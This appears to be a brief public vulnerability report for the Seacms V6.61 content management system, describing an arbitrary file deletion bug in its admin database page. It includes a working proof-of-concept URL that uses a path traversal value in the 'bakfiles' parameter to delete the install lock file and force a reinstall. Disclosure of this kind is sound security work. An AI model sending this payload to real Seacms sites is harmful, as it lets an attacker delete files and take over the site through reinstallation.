

### delete arbitrary files vulnerability in Seacms Content Management System V6.61
1. Download the source code locally on the official website http://www.seacms.net. The environment is php+mysql environment.
2. My local installation path is seacms, so go to http://127.0.0.1/seacms/install/index.php to install.
3. After the installation is complete, modify the background path to adm1n and enter the background http://127.0.0.1/seacms/adm1n.
4. Visit the url: http://127.0.0.1/seacms/adm1n/admin_database.php?action=redat&delfile=1&redStruct=1&bakfiles=/../../../install/install_lock.txt, the lock file install_lock.txt is deleted (can cause the system to reinstall, re-install by visit http://127.0.0.1/seacms/install/index.php).

 The lock file install_lock.txt is deleted